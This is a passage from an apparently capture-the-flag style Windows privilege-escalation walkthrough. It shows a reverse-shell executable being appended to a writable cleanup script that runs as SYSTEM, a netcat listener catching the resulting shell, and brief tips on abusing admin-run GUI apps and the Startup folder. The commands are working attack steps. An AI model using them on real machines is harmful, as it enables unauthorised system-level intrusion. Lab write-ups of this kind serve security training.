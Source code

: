 ```cmd
        READ_CONTROL
```

Now we can start a Listener and append our reverse shell to this script content:

```cmd
C:\Users\user>copy C:\DevTools\CleanUp.ps1 C:\Temp
copy C:\DevTools\CleanUp.ps1 C:\Temp
        1 file(s) copied.

C:\Users\user>echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1

C:\Users\user>type C:\DevTools\CleanUp.ps1
type C:\DevTools\CleanUp.ps1
# This script will clean up all your old dev logs every minute.
# To avoid permissions issues, run as SYSTEM (should probably fix this later)

Remove-Item C:\DevTools\*.log
C:\PrivEsc\reverse.exe 
```

And we have a shell:

```console
root@kali:~/thm/windows10privesc# nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.11.35.147] from (UNKNOWN) [10.10.127.237] 49915
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami

```

___

## Insecure GUI apps

Some GUI apps may run with administrator privileges.

```cmd
> tasklist /V | findstr admin
```

With this app, if we can open `file://c:/windows/system32/cmd.exe` we can perform a privesc.

___

## Startup Apps

Startup directory for apps that should start for all users: `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`
